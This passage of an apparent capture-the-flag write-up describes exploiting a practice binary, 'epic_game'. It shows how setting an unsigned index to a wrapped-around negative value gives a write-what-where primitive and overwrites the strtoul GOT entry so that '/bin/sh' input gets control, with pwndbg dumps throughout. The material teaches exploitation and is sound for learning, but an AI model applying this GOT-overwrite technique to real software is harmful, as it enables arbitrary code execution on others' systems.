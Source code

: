 ```
pwndbg> x/gx 0x4044b0
0x4044b0 <error_log+1008>:  0x4242424242424242
0x4044b8 <error_log+1016>:  0x0042424242424242
0x4044c0 <write_to_log>:    0x0000000000000001
0x4044c8 <curr>:            0x0000000000000402
0x4044d0:                   0x0000000000000000
0x4044d8:                   0x0000000000000000
```

To overcome this, we can overwrite ``curr`` to be a negative number -87(``0xffffffffffffffa9``) in order to create a _write-what-where_ primitive, which will land **before** the ``error_log`` buffer.

Then, the next time ``log_error()`` will be called, it will trigger a write to the GOT entry ``strtoul@GLIBC_2.2.5`` with our user-controlled input. 

>**Note**: ``curr`` has an unsigned type of ``uint64_t``, hence, it can't really be negative.
> 
>However, if we enter the 'unsigned representation' of -87(``0xffffffffffffffa9``) and add ``&error_log`` to it = we'll end up reaching the GOT:
> ```
> pwndbg> x/gx 0x4040c0
> 0x4040c0 <error_log>:   0x4242424242424242
> 0x4040c8 <error_log+8>: 0x4242424242424242
> pwndbg> p/x (unsigned int)0x4040c0+0xffffffffffffffb8   # adding `curr` value to `error_log`
> $7 = 0x404078
> pwndbg> x/gx 0x404078 # inspecting what's inside the result
> 0x404078 <strtoul@got.plt>:     0x00007fb8e512fc60
> ```
> **Note2:** In the snippet above, ``curr`` ends with ``b8`` and not ``a9`` because the program adds ``0xf`` when we send our payload. So we're taking that into account as well.

``strtoul`` is a good candidate to override because the user input is supplied as the 1st argument to it inside the main loop of the program:

[./ctfd/epic_game.c#L154-L155](./ctfd/epic_game.c#L152-L155)

```c
puts("Your Choice:");
if(fgets (buffer, BUFFER_SIZE, stdin) != NULL) {
    uint32_t move = strtoul(buffer, NULL, 10);
```

Sample of what happens after we adjust ``curr`` properly to override ``strtoul``:

```
Your choice:
BBBBAAAA

Input Error
...
Your choice:
/bin/sh

Program received signal SIGSEGV, Segmentation fault.
0x00000000004010f0 in strtoul@plt ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
───────────────────────────────────────────────────────────[ REGISTERS ]───────────────────────────────────────────────────────────
*RAX  0x7ffcaf47dcc0 ◂— '/bin/sh\n'
 RBX  0x0
*RCX  0x9858df ◂— 0x0
*RDX  0xa
*RDI  0x7ffcaf47dcc0 ◂— '/bin/sh\n'
*RSI  0x0
*R8   0x7ffcaf47dcc0 ◂— '/bin/sh\n'
 R9   0x0
*R10  0x402017 ◂— 0x65206f6c6c654800
```